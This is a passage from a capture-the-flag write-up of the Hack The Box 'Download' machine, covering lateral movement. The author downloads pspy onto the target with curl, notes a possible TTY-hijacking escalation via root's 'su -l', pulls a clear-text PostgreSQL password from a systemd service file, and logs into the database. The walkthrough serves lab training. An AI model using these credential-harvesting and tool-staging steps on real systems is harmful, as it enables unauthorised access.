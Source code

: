 Next i logged using this password with the wesley user.
```
ssh wesley@download.htb
```

## Lateral movement

Doing the initial privesc scanning ended up being quite fruitless so i decided to run pspy to have an idea on what is going on on the machine. First i needed to download the binary from my machine using curl and make it executable.

```bash
curl http://10.10.14.37/pspy64 -o pspy
chmod +x 
./pspy
```
Watching this output showed the following two lines which were interesting.

![Pspy](/assets/img/Download/Download_05.png)

The first line gives me an idea that there might be some information in the service file of download-site and the second shows me that root is using su -l to a lower privilege account named postgres. This could potentially be abused to hijack the TTY and gain arbitrary code execution as root. To be able to do that we need to be able to send commands the moment root accesses this account though which at this point i did not see any path towards.

Next i decided to check out what was in the service file of the download-site service 

```bash
cat /etc/systemd/system/download-site.service 
```

This gave us the clear text credentials of the postgres account.

```
[Unit]
Description=Download.HTB Web Application
After=network.target

[Service]
Type=simple
User=www-data
WorkingDirectory=/var/www/app/
ExecStart=/usr/bin/node app.js
Restart=on-failure
Environment=NODE_ENV=production
Environment=DATABASE_URL="postgresql://download:CoconutPineappleWatermelon@localhost:5432/download"

[Install]
WantedBy=multi-user.target
```

We could log into the database using 
```
psql -U download -h localhost -d download -W
```
